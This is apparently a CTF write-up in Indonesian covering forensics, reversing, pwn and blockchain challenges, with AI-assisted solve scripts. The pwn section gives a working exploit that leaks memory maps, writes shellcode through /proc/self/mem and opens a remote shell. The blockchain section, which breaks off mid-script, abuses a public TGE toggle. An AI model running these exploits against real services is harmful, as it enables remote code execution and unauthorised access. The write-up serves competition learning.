# WARNING: Decompyle incomplete


def main():
    prm()
    kst()

if __name__ == '__main__':
    main()
    return None
```

Disini walau `pycdc` terputus ditengah jalan, namun potongan code yang didapat sudah cukup untuk menganalisa malware. Dapat disimpulkan bahwa `serizawa` adalah sebuah **Keylogger**

Sekarang jika kita hubungkan dengan kedua file yang kita dapat, maka
1. `serizawa` adalah Keylogger yang berjalan di background
2. `cron.aseng` adalah file yang berisi log keyboard victim
3. `whatisthis.enc` adalah file terenkripsi yang kemungkinan menjadi flag untuk challenge ini

Selanjutnya, aku menganalisa file `cron.aseng`

```bash
(ctf-env) lasangna@sandbox:~/ctf/foren/tattletale/dist$ xxd cron.aseng | head -n 10
00000000: 143f 8c69 0000 0000 3083 0700 0000 0000  .?.i....0.......
00000010: 0400 0400 2600 0000 143f 8c69 0000 0000  ....&....?.i....
00000020: 3083 0700 0000 0000 0100 2600 0100 0000  0.........&.....
00000030: 143f 8c69 0000 0000 3083 0700 0000 0000  .?.i....0.......
00000040: 0000 0000 0000 0000 143f 8c69 0000 0000  .........?.i....
00000050: e93d 0800 0000 0000 0400 0400 2600 0000  .=..........&...
00000060: 143f 8c69 0000 0000 e93d 0800 0000 0000  .?.i.....=......
00000070: 0100 2600 0000 0000 143f 8c69 0000 0000  ..&......?.i....
00000080: e93d 0800 0000 0000 0000 0000 0000 0000  .=..............
00000090: 143f 8c69 0000 0000 7cc3 0800 0000 0000  .?.i....|.......
```

## Solve

Dengan bantuan Gemini, aku menganalisa file ini dan menemukan patternnya, kemudian meminta Gemini untuk membuat script untuk parsing file `cron.aseng`

berikut file `parser.py`

```python
import struct

# Map some Linux Keycodes to human readable
KEY_MAP = {
    2: '1', 3: '2', 4: '3', 5: '4', 6: '5', 7: '6', 8: '7', 9: '8', 10: '9', 11: '0',
    12: '-', 13: '=', 14: '[BACKSPACE]', 15: '[TAB]',
    16: 'q', 17: 'w', 18: 'e', 19: 'r', 20: 't', 21: 'y', 22: 'u', 23: 'i', 24: 'o', 25: 'p', 26: '[', 27: ']', 28: '\n',
    30: 'a', 31: 's', 32: 'd', 33: 'f', 34: 'g', 35: 'h', 36: 'j', 37: 'k', 38: 'l', 39: ';', 40: "'", 42: '[SHIFT]',
    44: 'z', 45: 'x', 46: 'c', 47: 'v', 48: 'b', 49: 'n', 50: 'm', 51: ',', 52: '.', 53: '/', 54: '[SHIFT]',
    57: ' ', 58: '[CAPS]'
}

with open('cron.aseng', 'rb') as f:
    while True:
        # Read 24 byte per event
        data = f.read(24)
        if not data or len(data) < 24:
            break
        
        # Unpack using the same struct with malware: QQHHi
        tv_sec, tv_usec, ev_type, ev_code, ev_value = struct.unpack('QQHHi', data)
        
        # Filter: Only take EV_KEY (Type 1) and when key PRESSED (Value 1)
        if ev_type == 1 and ev_value == 1:
            char = KEY_MAP.get(ev_code, f'[{ev_code}]')
            print(char, end='')
print()
```

Berikut output dari `parser.py`

```bash
(ctf-env) lasangna@sandbox:~/ctf/foren/tattletale/dist$ python3 parser.py 
ls
whoami
echo [SHIFT]'[CAPS]y[CAPS]ey you finally decrypt me [SHIFT];0[SHIFT]'
echo [SHIFT]'[CAPS]j[CAPS]ust a little more steps ok[SHIFT]/[SHIFT]'
env [SHIFT]. whatisthis
od whatisthis [SHIFT]. whatisthis.baboi
openssl enc -aes-256-cbc -salt -pass pass[SHIFT];letsseethepassword[BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE]hmmm[BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE]thepasswordisjajajaja[BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE][BACKSPACE]4[SHIFT]-g00d[SHIFT]-fr1en[BACKSPACE][BACKSPACE]3n[CAPS]d[CAPS][SHIFT]-in[SHIFT]-n33[CAPS]d[CAPS] -in whatisthis.baboi -out whatisthis.enc
echo [SHIFT]'[CAPS]o[CAPS]k go for it[SHIFT]1 [CAPS]t[CAPS]he flag is in env btw[SHIFT]'
[29]c
```

Dari output diatas, terdapat hal penting dimana victim menjalankan perintah 

```bash
env > whatisthis
```

kemudian menggunakan perintah `od` dan menyimpannya ke `whatisthis.baboi`

```bash
od whatisthis > whatisthis.baboi
```

dan bagian vitalnya pada saat membuat password. Setelah analisa, didapatkan passwordnya adalah

```
4_g00d_fr13nD_in_n33D
```

Selanjutnya, aku men-decrypt file `whatisthis.enc` dengan algoritma yang sama saat diencrypt, yaitu `aes-256-cbc`

```bash
openssl enc -d -aes-256-cbc -salt -pass pass:4_g00d_fr13nD_in_n33D -in whatisthis.enc -out whatisthis.bababoi.recovered
```

Terakhir, untuk mendecode file `whatisthis.baboi.recovered` yang telah diubah dengan `od` sebelumnya, aku meminta Gemini untuk membuat script untuk decode.

berikut file `decode_od.py`

```python
import struct

output_text = ""

with open("whatisthis.baboi.recovered", "r") as f:
    for line in f:
        parts = line.strip().split()
        
        # if line empty or only last offset ( 0005002), pass
        if len(parts) < 2:
            continue
            
        # First column is offset, the rest of it are octal values
        octal_values = parts[1:]
        
        for oct_str in octal_values:
            # Convert octal string to integer
            val = int(oct_str, 8)
            
            # Pack integer into 2 byte (Little Endian), then decode to teks
            # Ignore error if non-ASCII characters
            chars = struct.pack('<H', val).decode('ascii', errors='ignore')
            output_text += chars

print(output_text)

```

Flag: **`C2C{it_is_just_4_very_s1mpl3_l1nuX_k3ylogger_xixixi_haiyaaaaa_ez}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Aku menggunakan Gemini untuk menganalisa pseudocode dari Ghidra, menganalisa file `cron.aseng`, membuat parser dan decoder script.

Berikut prompt yang aku gunakan:

```
analyze this 

void FUN_00401ca0(undefined4 param_1,undefined8 param_2)

{
    ...
```

```
this what i got from decompiling serizawa.pyc

# Source Generated with Decompyle++
# File: serizawa.pyc (Python 3.11) 
...
```

```
can you read this file pattern ...
```

```
create the script to parse this ...
```

Metodologi yang aku gunakan untuk memverifikasi output dari Gemini adalah dengan mencoba output yang diberikan Gemini, dari semua jawaban Gemini pada chall ini, tidak ada yang fail.

---

# reverse/bunaken

Pertama, aku mencoba untuk menganalisa file `bunaken` dengan menjalankan file ini untuk mendapatkan gambaran kasar mengenai challenge ini

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/reveng/bunaken]
└──╼ $./bunaken 
ENOENT: no such file or directory, open 'flag.txt'
    path: "flag.txt",
 syscall: "open",
   errno: -2,
    code: "ENOENT"

Bun v1.3.6 (Linux x64)
```

Dari sini aku menemukan bahwa `bunaken` adalah **JavaScript/TypeScript Runtime** dengan menggunakan **Bun**

Selanjutnya aku memastikan bahwa file `bunaken` bisa di-strip dengan mengecek menggunakan `file`

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/reveng/bunaken]
└──╼ $file bunaken 
bunaken: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=109a021c1b3405d73bd0e95dcad52ec5857f4ed9, not stripped
```

Disini karena sudah dikonfirmasi bahwa file ini `not stripped`, aku bisa mencoba menganalisa dengan `strings`

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/reveng/bunaken]
└──╼ $strings bunaken > bunaken_strings.txt
```

Selanjutnya aku mencoba mencari pattern string seperti `flag` atau `flag.txt`

[image here]

Berikut line yang mengandung `flag.txt`

```javascript
function w(){let n=["WR0tF8oezmkl","toString","W603xSol","1tlHJnY","1209923ghGtmw","text","13820KCwBPf","byteOffset","40xRjnfn","Cfa9","bNaXh8oEW6OiW5FcIq","alues","lXNdTmoAgqS0pG","D18RtemLWQhcLConW5a","nCknW4vfbtX+","WOZcIKj+WONdMq","FCk1cCk2W7FcM8kdW4y","a8oNWOjkW551fSk2sZVcNa","yqlcTSo9xXNcIY9vW7dcS8ky","from","iSoTxCoMW6/dMSkXW7PSW4xdHaC","c0ZcS2NdK37cM8o+mW","377886jVoqYx","417805ESwrVS","7197AxJyfv","cu7cTX/cMGtdJSowmSk4W5NdVCkl","W7uTCqXDf0ddI8kEFW","write","encrypt","ted","xHxdQ0m","byteLength","6CCilXQ","304OpHfOi","set","263564pSWjjv","subtle","945765JHdYMe","SHA-256","Bu7dQfxcU3K","getRandomV"];return w=function(){return n},w()}function l(n,r){return n=n-367,w()[n]}var y=l,s=c;function c(n,r){n=n-367;let t=w(),x=t[n];if(c.uRqEit===void 0){var b=function(i){let f="",a="";for(let d=0,o,e,p=0;e=i.charAt(p++);~e&&(o=d%4?o*64+e:e,d++%4)?f+=String.fromCharCode(255&o>>(-2*d&6)):0)e="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=".indexOf(e);for(let d=0,o=f.length;d<o;d++)a+="%"+("00"+f.charCodeAt(d).toString(16)).slice(-2);return decodeURIComponent(a)};let U=function(i,B){let f=[],a=0,d,o="";i=b(i);let e;for(e=0;e<256;e++)f[e]=e;for(e=0;e<256;e++)a=(a+f[e]+B.charCodeAt(e%B.length))%256,d=f[e],f[e]=f[a],f[a]=d;e=0,a=0;for(let p=0;p<i.length;p++)e=(e+1)%256,a=(a+f[e])%256,d=f[e],f[e]=f[a],f[a]=d,o+=String.fromCharCode(i.charCodeAt(p)^f[(f[e]+f[a])%256]);return o};c.yUvSwA=U,c.MmZTqk={},c.uRqEit=!0}let u=t[0],I=n+u,A=c.MmZTqk[I];return!A?(c.ftPoNg===void 0&&(c.ftPoNg=!0),x=c.yUvSwA(x,r),c.MmZTqk[I]=x):x=A,x}(function(n,r){let t=c,x=l,b=n();while(!0)try{if(parseInt(x(405))/1*(parseInt(x(383))/2)+-parseInt(x(385))/3*(parseInt(t(382,"9Dnx"))/4)+parseInt(x(384))/5*(-parseInt(x(393))/6)+parseInt(x(396))/7*(parseInt(x(369))/8)+parseInt(t(381,"R69F"))/9+-parseInt(x(367))/10+-parseInt(x(406))/11===r)break;else b.push(b.shift())}catch(u){b.push(b.shift())}})(w,105028);var h=async(n)=>{let r=l,t=c,x=n instanceof ArrayBuffer?new Uint8Array(n):new Uint8Array(n[t(400,"I2yl")],n[r(368)],n.byteLength);if(x.byteLength===16||x.byteLength===24||x.byteLength===32)return x;let b=await crypto.subtle[t(402,"Fw]1")](r(399),x);return new Uint8Array(b).subarray(0,16)},g=(n,r)=>{let t=l,x=new Uint8Array(n.byteLength+r.byteLength);return x.set(n,0),x[t(395)](r,n[t(392)]),x},m=async(n,r)=>{let t=c,x=l,b=crypto[x(401)+x(372)](new Uint8Array(16)),u=await h(n),I=await crypto[x(397)][t(371,"kAmA")](t(370,"CYgn"),u,{name:"AES-CBC"},!1,[x(389)]),A=await crypto.subtle[x(389)]({name:t(375,"dHTh"),iv:b},I,r);return g(b,new Uint8Array(A))},S=Bun[s(391,"9Dnx")](s(377,"R69F")),k=await S[y(407)](),v=await Bun[s(387,"f]pG")+"ss"](k),z=await m(Buffer[y(380)](s(373,"rG]G")),v);Bun[y(388)]("flag.txt.b"+s(374,"CYgn")+y(390),Buffer[s(404,"(Y*]")](z)[y(403)](s(376,"$lpa")));
```

Disini aku meminta bantuan Gemini untuk menganalisa alur dari function tersebut dan menyimpulkan bahwa terdapat fungsi `h` **Key Derivation**, `m` **Encryption**, `g` **Data Structuring** kemudian menjalankan `Buffer.from(z).toString('base64')` ke `flag.txt.bunakencrypted`

## Solve

Untuk men-decrypt `flag.txt.bunakencrypted`, aku meminta Gemini untuk membuat scriptnya yang memanfaatkan fungsi **deobfuscator** dari function yang kita temukan.

berikut script `solve.js`

```javascript
const crypto = require('crypto');

// 1. --- DEOBFUSCATOR CODE FROM BUNAKEN ---
function w(){let n=["WR0tF8oezmkl","toString","W603xSol","1tlHJnY","1209923ghGtmw","text","13820KCwBPf","byteOffset","40xRjnfn","Cfa9","bNaXh8oEW6OiW5FcIq","alues","lXNdTmoAgqS0pG","D18RtemLWQhcLConW5a","nCknW4vfbtX+","WOZcIKj+WONdMq","FCk1cCk2W7FcM8kdW4y","a8oNWOjkW551fSk2sZVcNa","yqlcTSo9xXNcIY9vW7dcS8ky","from","iSoTxCoMW6/dMSkXW7PSW4xdHaC","c0ZcS2NdK37cM8o+mW","377886jVoqYx","417805ESwrVS","7197AxJyfv","cu7cTX/cMGtdJSowmSk4W5NdVCkl","W7uTCqXDf0ddI8kEFW","write","encrypt","ted","xHxdQ0m","byteLength","6CCilXQ","304OpHfOi","set","263564pSWjjv","subtle","945765JHdYMe","SHA-256","Bu7dQfxcU3K","getRandomV"];return w=function(){return n},w()}function l(n,r){return n=n-367,w()[n]}var y=l,s=c;function c(n,r){n=n-367;let t=w(),x=t[n];if(c.uRqEit===void 0){var b=function(i){let f="",a="";for(let d=0,o,e,p=0;e=i.charAt(p++);~e&&(o=d%4?o*64+e:e,d++%4)?f+=String.fromCharCode(255&o>>(-2*d&6)):0)e="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=".indexOf(e);for(let d=0,o=f.length;d<o;d++)a+="%"+("00"+f.charCodeAt(d).toString(16)).slice(-2);return decodeURIComponent(a)};let U=function(i,B){let f=[],a=0,d,o="";i=b(i);let e;for(e=0;e<256;e++)f[e]=e;for(e=0;e<256;e++)a=(a+f[e]+B.charCodeAt(e%B.length))%256,d=f[e],f[e]=f[a],f[a]=d;e=0,a=0;for(let p=0;p<i.length;p++)e=(e+1)%256,a=(a+f[e])%256,d=f[e],f[e]=f[a],f[a]=d,o+=String.fromCharCode(i.charCodeAt(p)^f[(f[e]+f[a])%256]);return o};c.yUvSwA=U,c.MmZTqk={},c.uRqEit=!0}let u=t[0],I=n+u,A=c.MmZTqk[I];return!A?(c.ftPoNg===void 0&&(c.ftPoNg=!0),x=c.yUvSwA(x,r),c.MmZTqk[I]=x):x=A,x}(function(n,r){let t=c,x=l,b=n();while(!0)try{if(parseInt(x(405))/1*(parseInt(x(383))/2)+-parseInt(x(385))/3*(parseInt(t(382,"9Dnx"))/4)+parseInt(x(384))/5*(-parseInt(x(393))/6)+parseInt(x(396))/7*(parseInt(x(369))/8)+parseInt(t(381,"R69F"))/9+-parseInt(x(367))/10+-parseInt(x(406))/11===r)break;else b.push(b.shift())}catch(u){b.push(b.shift())}})(w,105028);
// ------------------------------------------------

async function decryptFlag() {
    // 2. Extract hidden key using deobfuscator func (s)
    const rawKey = s(373, "rG]G");
    console.log("[+] Raw Key berhasil di-ekstrak:", rawKey);

    // 3. Replicate 'h' func: Hash with SHA-256 and take first 16 byte
    const hash = crypto.createHash('sha256').update(rawKey).digest();
    const encryptionKey = hash.subarray(0, 16);

    // 4. Base64 from flag.txt.bunakencrypted
    const b64Flag = "3o2Gh52pjRk80IPViTp8KUly+kDGXo7qAlPo2Ff1+IOWW1ziNAoboyBZPX6R4JvNXZ4iWwc662Nv/rMPLdwrIb3D4tTbOg/vi0NKaPfToj0=";
    const encryptedBuffer = Buffer.from(b64Flag, 'base64');

    // 5. Replicate 'g' func: split first 16 byte as IV, and the rest as Ciphertext
    const iv = encryptedBuffer.subarray(0, 16);
    const ciphertext = encryptedBuffer.subarray(16);

    // 6. Final decrypt
    const decipher = crypto.createDecipheriv('aes-128-cbc', encryptionKey, iv);
    let decrypted = decipher.update(ciphertext);
    decrypted = Buffer.concat([decrypted, decipher.final()]);

    console.log("[+] FLAG:", decrypted.toString('utf8'));
}

decryptFlag().catch(console.error);
```

dan ini output dari script `solve.js`

```bash
┌─[lasangna@parrot]─[~/ctf/c2c/reveng/bunaken]
└──╼ $node solve.js 
[+] Raw Key berhasil di-ekstrak: sulawesi
[+] FLAG: (�/� 3�C2C{BUN_AwKward_ENcryption_compression_obfuscation}
```

Flag: **`C2C{BUN_AwKward_ENcryption_compression_obfuscation}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Aku menggunakan Gemini untuk menganalisa temuan dari `strings` dan membuat script solver untuk mendapatkan flag dari encrypted file.

Berikut prompt yang aku gunakan:

```
i find this in bunaken strings

function w(){let n=["WR0tF8oezmkl", ...

can you analyze it and find what is it about?
```

```
according to the function, create the script to decrypt the flag.txt.bunakencrypted
```

Metodologi yang aku gunakan untuk memverifikasi output dari Gemini adalah dengan mencoba output yang diberikan Gemini dan mencoba memahami alurnya. Dalam challenge ini, output dari Gemini tidak menghasilkan error, hanya hasil decrypt yang ada character asing, tapi flag nya berhasil di decrypt.

---

# pwn/ns3

Challenge ini cukup baik karena memberikan source code `.cpp` sehingga aku tidak perlu menganalisa dari ELF file (W Author)

pertama, aku meminta bantuan Gemini untuk menganalisa alur program dan mencari vulnerability yang dapat diexploit, selanjutnya aku mencoba menjalankan program secara local terlebih dahulu untuk mendapatkan test flag terlebih dahulu, baru ketika sudah berhasil, akan aku eksekusi ke instance

Pertama aku mencoba untuk mengambil environment variables dengan mencoba GET ke path `/proc/self/environ` dengan script bantuan Gemini, tapi dari outputnya, aku berhasil mendapatkan environment variables, tapi tidak dengan flag nya.

```bash
(ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ python3 exploit.py
[+] Opening connection to localhost on port 8080: Done
[*] Sending payload to read: /proc/self/environ
[+] Receiving all data: Done (218B)
[*] Closed connection to localhost port 8080
[+] Response received

--- Environment Variables ---

HOSTNAME=36f085300a40
SHLVL=1
HOME=/
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/app
USER=nobody
LOGNAME=nobody
SHELL=./server 
```

Dari output tersebut, aku menyadari bahwa aku mengakses sebagai `USER=nobody`, hal ini mengindikasikan adanya *privilege drop* sehingga aku tidak bisa membaca flag.

Selanjutnya aku menganalisa isi `run.sh` dan menemukan bahwa variable `GZCTF_FLAG` disimpan dalam file dengan nama acak (`/flag-xxxx...`), kemudian variable dihapus dengan `unset`, dan menjalankan sebagai user `nobody`

`run.sh`
```shell
#!/bin/sh

rm /flag-* 2>/dev/null
echo $GZCTF_FLAG > /flag-$(tr -dc 'a-f0-9' < /dev/urandom | head -c 64)
unset GZCTF_FLAG
exec su -s ./server nobody 
```

Kemudian aku mendiskusikan ulang dengan Gemini untuk menggunakan pendekatan lain, dan Gemini menyarankan untuk mencoba mendapatkan virtual memory dari `/proc/self/maps` dan untuk leak memory maps.

```bash
(ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ python exploit.py
[+] Opening connection to localhost on port 8080: Done
[*] Sending payload to read: /proc/self/maps
[+] Receiving all data: Done (952B)
[*] Closed connection to localhost port 8080
[+] Response received


--- Memory Maps ---
55558c784000-55558c7a6000 rw-p 00000000 00:00 0                          [heap]
7f00cb71a000-7f00cb721000 rw-s 00000000 00:01 339                        /dev/zero (deleted)
7f00cb721000-7f00cb725000 r--p 00000000 00:00 0                          [vvar]
7f00cb725000-7f00cb727000 r-xp 00000000 00:00 0                          [vdso]
7f00cb727000-7f00cb741000 r--p 00000000 00:37 1468494                    /app/server
7f00cb741000-7f00cb8d3000 r-xp 0001a000 00:37 1468494                    /app/server
7f00cb8d3000-7f00cb945000 r--p 001ac000 00:37 1468494                    /app/server
7f00cb945000-7f00cb952000 r--p 0021d000 00:37 1468494                    /app/server
7f00cb952000-7f00cb954000 rw-p 0022a000 00:37 1468494                    /app/server
7f00cb954000-7f00cb95d000 rw-p 00000000 00:00 0
7ffebba2b000-7ffebba4c000 rw-p 00000000 00:00 0                          [stack] 
```

Disini aku kembali meminta bantuan Gemini untuk menganalisa outputnya dan menyimpulkan bahwa aku sudah berhasil melakukan **KASLR / PIE Bypass** dan menemukan target di baris

```bash
7f00cb741000-7f00cb8d3000 r-xp 0001a000 00:37 1468494                    /app/server
```

yang merupakan segment `.text` dimana instruksi code program (assembly) berada.

Selanjutnya aku mencoba mencari offset dari fungsi `send_response` dalam file binary dengan perintah:

```bash
nm -C src/server | grep send_response
```

```bash
ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ nm -C src/server | grep send_response
0000000000022d4c T Server::send_response(int, int, std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> > const&, std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> > const&) 
```

Disini aku berhasil menemukan offset `0x22d4c`, disini Gemini sudah bisa menyusun exploit dengan memanfaatkan `rsi` register.

Dengan script dari Gemini, aku berhasil menjalankan exploit ke local dan mendapatkan test flag nya

```bash
 (ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ python3 exploit.py
[+] Opening connection to localhost on port 8080: Done
[*] Read /proc/self/maps to leak Base Address
[+] Base Address Server found: 0x7f00cb727000
[+] Target overwrite (Server::send_response): 0x7f00cb749d4c
[*] Shellcode created (64 bytes)
[*] Overwriting memory instruction via /proc/self/mem
[+] Payload sent
[+] run 'cat /flag*'
[*] Switching to interactive mode
$ cat /flag*
C2C{test_flag_is_here}
$
[*] Interrupted
[*] Closed connection to localhost port 8080 
```

## Exploit

Dengan menyesuaikan beberapa bagian, berikut `exploit.py` yang aku jalankan ke instance

```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

host = 'challenges.1pc.tf'
port = <port>

io = remote(host, port)

# =========================================================================
# STEP 1: INFORMATION LEAK (KASLR BYPASS)
# =========================================================================
log.info("Read /proc/self/maps to leak Base Address")

# Construct HTTP Request
req_get = f"GET /?path=/proc/self/maps HTTP/1.1\r\n"
req_get += f"Host: {host}\r\n"
req_get += "Connection: keep-alive\r\n\r\n"
io.send(req_get.encode())

# Parsing response to keep TCP stream sync
io.recvuntil(b"Content-Length: ")
content_length = int(io.recvuntil(b"\r").strip())
io.recvuntil(b"\r\n\r\n")
maps_data = io.recv(content_length).decode()

# Find first line with /app/server path
base_addr = 0
for line in maps_data.splitlines():
  if "/app/server" in line:
      base_addr = int(line.split('-')[0], 16)
      break

if base_addr == 0:
  log.error("Failed to find Base Address!")
  exit(1)

log.success(f"Base Address Server found: {hex(base_addr)}")

# =========================================================================
# STEP 2: SHELLCODE & OFFSET CALCULATION
# =========================================================================
# Offset Server::send_response func from 'nm'
offset_send_response = 0x22d4c
target_addr = base_addr + offset_send_response
log.success(f"Target overwrite (Server::send_response): {hex(target_addr)}")

# Create shellcode: Redirect I/O (stdin, stdout, stderr) to fd in 'rsi' then execute /bin/sh
shellcode = asm(shellcraft.dupsh('rsi'))
log.info(f"Shellcode created ({len(shellcode)} bytes)")

# =========================================================================
# STEP 3: ARBITRARY MEMORY WRITE & TRIGGER
# =========================================================================
log.info("Overwriting memory instruction via /proc/self/mem")

# format target_addr to num string
req_put = f"PUT /?path=/proc/self/mem&offset={target_addr} HTTP/1.1\r\n"
req_put += f"Host: {host}\r\n"
req_put += "Connection: close\r\n"
req_put += f"Content-Length: {len(shellcode)}\r\n\r\n"

# Send HTTP header HTTP and put shellcode as body
payload = req_put.encode() + shellcode
io.send(payload)

log.success("Payload sent")
log.success("run 'cat /flag*'")

io.interactive()
```

Selanjutnya, ini output dari `exploit.py` tersebut

```bash
(ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ python exploit.py 
[+] Opening connection to challenges.1pc.tf on port 22040: Done
[*] Read /proc/self/maps to leak Base Address
[+] Base Address Server found: 0x7fd059ec9000
[+] Target overwrite (Server::send_response): 0x7fd059eebd4c
[*] Shellcode created (64 bytes)
[*] Overwriting memory instruction via /proc/self/mem
[+] Payload sent
[+] run 'cat /flag*'
[*] Switching to interactive mode
$ cat /flag*
C2C{LlnUx_1iIe_5YS7eM_I5_Qul7E_m1nD_81OWIn6_i5N'7_i7_e9042b9950c2?}
$ 
[*] Interrupted
[*] Closed connection to challenges.1pc.tf port 22040
```

Flag: **`C2C{LlnUx_1iIe_5YS7eM_I5_Qul7E_m1nD_81OWIn6_i5N'7_i7_e9042b9950c2?}`**

## AI Usage

yes, i use AI to solve this challenge. I used **Gemini 3 Pro**. For the subscription, it's from Google AI Pro with Student Account.

Aku mengerjakan challenge ini sebagian besar dengan bantuan Gemini karena aku masih belum banyak pengalaman dalam pwn challenge. Aku banyak menggunakan bantuan Gemini untuk menganalisa file, menganalisa output, mencari vulnerabilities dan membuat exploit script

Berikut prompt yang aku gunakan:

```
here's the server.cpp file, what can i do with this?

#include "server.hpp"
#include <iostream> 
...
```

```
here's the output of the exploit

(ctf-env) lasangna@sandbox:~/ctf/pwn/ns3$ python3 exploit.py

[+] Opening connection to localhost on port 8080: Done
[*] Sending payload to read: /proc/self/environ 
...

what should i do?
```

Disini aku banyak menggunakan bantuan dari Gemini, jadi metodologi yang aku gunakan untuk memverifikasi output dari Gemini adalah dengan mencoba output yang diberikan Gemini dan mengirimkan hasil outputnya sebagai feedback ke Gemini hinggga mendapatkan flag-nya.

---

# blockchain/tge

di C2C CTF 20226 ini, aku mendapatkan pengalaman pertama ku berhadapan dengan Blockchain challenge. AKu banyak menggunakan Gemini untuk memahami istilah dan cara kerja dari blockchain disini

Pertama, aku mencoba memahami alur kerja challenge dan mencari "Goal" dari challenge ini.

pada file `Setup.sol` terdapat fungsi `isSolved()` ini

```solidity
function isSolved() external view returns (bool) {
    require(tge.userTiers(player) == 3, "not yet");
    return true;
}
```

Dari sini disimpulkan bahwa targetku sebagai player adalah untuk membuat status `userTiers` menjadi 3 (Tier 3).

Dari file `Setup.sol` juga bisa dilihat fungsi `constructor` yang menginisiasi state awal saat instance dijalankan.

```solidity
constructor(address _player) {
    player = _player;
    token = new Token("TOK", "TOK", 100);
    tge = new TGE(address(token), 15, 35, 50); // maxSupply: Tier1=15, Tier2=35, Tier3=50
    tge.setTgePeriod(true); // open TGE
    token.mint(player, 15); // given 15 token
}
```

Aku sebagai player diberi modal 15 token

Selanjutnya, analisa ke file `TGE.sol` untuk memahami mekanisme meningkatkan `userTiers`

1. **Tier 1**: ada fungsi `buy()`. Fungsi ini meminta player membayar sejumlah token (harga Tier 1 adalah 15). Karena player memiliki modal 15 token, player bisa beli Tier 1.
2. **Tier 2 & 3**: ada fungsi `upgrade(uint256 tier)`. Tapi fungsi ini memiliki banyak requirements.

Disini, Gemini menemukan vulnerabilities

* Di `Setup.sol`, ada fungsi `enableTge(bool _tge)` yang statusnya `public`. Ini artinya siapapun bisa menyalakan atau mematikan periode TGE sebebasnya
* Di `TGE.sol`, setiap kali TGE dimatikan, kontrak akan mengambil snapshot dari total supply saat itu dan menyimpan di `preTGESupply`

Dari Gemini, berikut skenario exploitnya

1. **Pemanasan:** Beli Tier 1 secara sah menggunakan 15 token dari modal
2. **Sabotase Snapshot:** Panggil `setup.enableTge(false)`. Karena tidak ada yang memiliki Tier 2 atau Tier 3, `preTGESupply` untuk Tier tersebut dicatat sebagai **0**.
3. **Membuka Celah:** Panggil `setup.enableTge(true)` agar bisa melakukan upgrade kembali. Sekarang status `tgeActivated` sudah `true` (karena pernah dimatikan sekali) dan `isTgePeriod` juga `true`
4. **Bypass Validasi:** Saat memanggil `upgrade(2)`, kontrak mengecek apakah saldo kamu lebih besar dari suplai di snapshot (`preTGEBalance > preTGESupply`). Karena suplainya 0 (hasil sabotase sebelumnya), maka saldo **1** saja sudah dianggap lebih besar dan player diizinkan naik tier.
5. **Finishing:** Ulangi hal yang sama untuk naik ke Tier 3.

## Exploit

Pertama, jalankan instance dengan blockchain launcher untuk mendapatkan credentials ke instance.

[image here]

Selanjutnya copy credentials dan masukkan ke `exploit.py` ini

```pyhton
from web3 import Web3

rpc_url = "http://challenges.1pc.tf:32128/3234aed2-eafa-4e45-b1ca-71eadd8646a1"
priv_key = "87062c8bc61a2f05a3521a08ea8f043a2d05219c5ff3e468ed3c6657007da3d4"
wallet = Web3.to_checksum_address("0x50543De4BBe544b5Afbf9F306A22083d0a8F1521")
setup_addr = Web3.to_checksum_address("0xfB2EE8D25e4Cda3c57bC68CAeF5C57243afF076e")

# Initialize Connection
w3 = Web3(Web3.HTTPProvider(rpc_url))
w3.eth.default_account = wallet

# Minimal ABI to interact
setup_abi = [
    {"inputs":[],"name":"tge","outputs":[{"type":"address"}],"stateMutability":"view","type":"function"},
    {"inputs":[],"name":"token","outputs":[{"type":"address"}],"stateMutability":"view","type":"function"},
    {"inputs":[{"type":"bool","name":"_tge"}],"name":"enableTge","outputs":[],"stateMutability":"nonpayable","type":"function"}
]
token_abi = [
    {"inputs":[{"type":"address","name":"spender"},{"type":"uint256","name":"amount"}],"name":"approve","outputs":[{"type":"bool"}],"stateMutability":"nonpayable","type":"function"}
]
tge_abi = [
    {"inputs":[],"name":"buy","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"type":"uint256","name":"tier"}],"name":"upgrade","outputs":[],"stateMutability":"nonpayable","type":"function"}
]

# Connect to Setup Contract to get TGE address and Token
setup = w3.eth.contract(address=setup_addr, abi=setup_abi)
tge_addr = setup.functions.tge().call()
token_addr = setup.functions.token().call()

tge = w3.eth.contract(address=tge_addr, abi=tge_abi)
token = w3.eth.contract(address=token_addr, abi=token_abi)

# Helper func for sending transaction
def send_tx(tx_build, name=""):
    tx = tx_build.build_transaction({
        'from': wallet,
        'nonce': w3.eth.get_transaction_count(wallet),
        # Add gasPrice (optional)
        'gasPrice': w3.eth.gas_price,
    })
    signed = w3.eth.account.sign_transaction(tx, priv_key)
    print(f"[*] Send Transaction: {name}...")
    
